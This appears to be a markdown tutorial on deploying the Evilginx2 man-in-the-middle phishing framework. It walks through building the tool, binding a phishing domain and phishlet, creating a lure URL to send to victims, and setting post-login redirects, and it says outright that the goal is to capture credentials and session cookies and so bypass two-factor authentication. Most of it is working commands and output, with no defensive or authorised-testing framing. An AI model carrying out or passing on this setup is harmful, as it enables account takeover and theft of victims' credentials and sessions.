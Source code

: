 
### Introduction:

Evilginx2 is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection. 
What is means is Evilginx2 is siting in the communication between our victim and the actual legitimate login page capturing all traffic passed through. This means we can also capture the session cookies and inout them into our own browser allowing us to successfully authenticate ourselves as the victim, when it is time to login with the credentials we have aquired.


### Configuring EvilGinx2:

```
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2                                       
make           
sudo cp bin/evilginx /usr/bin
sudo cp -r phishlets/ /usr/share/evilginx/
sudo cp -r templates /usr/share/evilginx/
sudo evilginx
```

Run evilginx2 and if the phishlets have been loaded successfully you should see the tool run. 

Now you need to edit the config and ``` add your domain and IP and the redirect URL. ```

[ Any scanners scanning your domain without the ```lure parameter``` will automatically get redirected to the "redirect_url" you set up here ]

We also need to setup a TLS Certificate for our domain. the Evilginx tool can handle all that for us. 

ENTER:

``` 
: phishlets hostname therecap
therecap.tk
: phishlets enable therecap
```

***

### Creating Evilginx2 Lure:

The next task is to created a ```lure```, which would be the phishing URL to send the victims to.

```
: lures create therecap
[04:31:37] [inf] created lure with ID:
1

: lures get-url 1
https://www.therecap.tk/BMvzCci()y     (WHAT IS THIS URL?)
```

We also need to add the URL the victim will be redirected to AFTER logging in. This is different from the ```config redirect_url``` as that one is for the scanners and unintended users and this one is for the victims post-login.

```
: lures edit 1 redirect_url
https://www.therecap.org/
[04:46:06] [inf] redirect_url =
'https://www.therecap.org/'
```

Once that is in you can navigate to the lure URL to make sure its works properly.

NOTE: You can run EVILGINX2 in a tmux session so that when you quit your ssh connection, the tool keeps on running.



***


